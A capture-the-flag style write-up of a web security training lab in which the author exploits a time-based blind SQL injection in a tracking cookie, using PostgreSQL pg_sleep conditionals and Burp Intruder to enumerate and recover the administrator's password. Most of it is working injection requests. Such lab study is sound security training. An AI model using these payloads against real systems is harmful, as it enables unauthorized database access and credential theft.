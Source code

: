 *This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.*

Observed the HTTP History after clicking on the login page: 
```Burp Request
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT;
...
```

Injecting a `'` into the cookie value: 
```
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'; 
```
resulted in a immediate 200 status code: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3195
```

After trying each syntax for specific to different databases, I found that PostgreSQL worked for the time delay:
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
```
This gave a 10s time delay. 

I then verified the username *administrator* by modifying the request to the following: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
...
```
This gave a 10s time delay as well. 

I then moved on to enumerate the length of the password, with the initial query in the Repeater as: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (length(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
```
This gave a 10s time delay, so I sent this modified request to the Intruder and made the payload as such: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (length(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
```
![Screenshot 2024-05-02 at 6.46.33 PM](images/Screenshot%202024-05-02%20at%206.46.33%20PM.png)
Based on the *Sniper* attack, I found the following results: 
![Screenshot 2024-05-02 at 6.51.18 PM](images/Screenshot%202024-05-02%20at%206.51.18%20PM.png)
Based on the results, the length of the password is 20 characters excluding the lagged response received (>20s). 

Now it is time to find out the value of each character in the password. 

I modified the query to the following and implemented the *Cluster Bomb* feature: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
...
```
![Screenshot 2024-05-02 at 7.02.40 PM](images/Screenshot%202024-05-02%20at%207.02.40%20PM.png)
![Screenshot 2024-05-02 at 7.03.01 PM](images/Screenshot%202024-05-02%20at%207.03.01%20PM.png)
I got the following results after filtering by those with ~10s response received: 
![Screenshot 2024-05-02 at 7.04.22 PM](images/Screenshot%202024-05-02%20at%207.04.22%20PM.png)
Piecing together the password, I got : 
`kjdh0dt60ifw4t456lqr`

Logged in with the credentials!
![Screenshot 2024-05-02 at 7.12.31 PM](images/Screenshot%202024-05-02%20at%207.12.31%20PM.png)